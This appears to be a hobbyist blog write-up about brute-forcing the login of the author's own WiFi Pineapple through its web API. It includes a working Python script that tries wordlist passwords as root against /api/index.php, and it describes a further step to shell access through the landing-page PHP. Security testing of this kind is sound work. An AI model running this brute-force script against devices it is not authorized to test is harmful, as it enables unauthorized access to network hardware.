

LetsHack my wifi pineapple. 

I was bored in my office and haven't ever really gotten to use my pineapple for hacking, so I decided to hack it. I'm hacking it assuming the management interface is exposed. I'll dive into the API and look for exploits some other time, however lockout isn't either available or configured on my pineapple, so we can brute force the login. 

I've changed my wifi pineapple's password to '1337' so we can develop a brute force script as a PoC.

Let's fire up Burp and see how login's are processed. 


Cool, just a POST request with some JSON to /api/. I fooled around with shaving off some of the headers and JSON params and ultimately we just need the request, HOST header, and the JSON key:values except time. We can see from the following screenshots that we can look for true / false in the response to the POST request to find out whether or not the correct password was used.




Let's take a small password list (https://github.com/DavidWittman/wpxmlrpcbrute/blob/master/wordlists/1000-most-common-passwords.txt) and add 1337 to it then get to work building a brute force script.

```
#!/usr/bin/env python3


import requests ## module to build the POST request
import sys ## Just to eend the script when password is found


### Below is the request, the request module has awesome docs,check it out
def brute(arg1):
    r = requests.post("http://172.16.42.1:1471/api/index.php",
    json = {"system":"authentication",
    "action":"login",
    "username":"root",
    "password":arg1}, ## line from list is checked as password
    headers={"Host":"172.16.42.1:1471"})

    if "true" in r.text: ## remember that true is in the response
        print("Password is {}".format(arg1))
        sys.exit(0) ## we already found the password, so stahp
    else:
        pass

with open('wordlist','r') as wordlist: ## open wordlist and read it
    for line in wordlist: ## for every line in wordlist
        brute(line.rstrip()) ## password test function
```

Hey it worked.


From there I used some of the API's I found while poking around. I'll do a more thorough write up later, but it works. Brute force to shell access (this is so much more fun than SSH).

***EDIT***
Basically all I did to finish the rest of the exploit was use Burp to follow the API's through changing and then enabling the landing page. After doing this I just used that information to code it into the script and then a final GET request to the landing page to trigger the PHP.


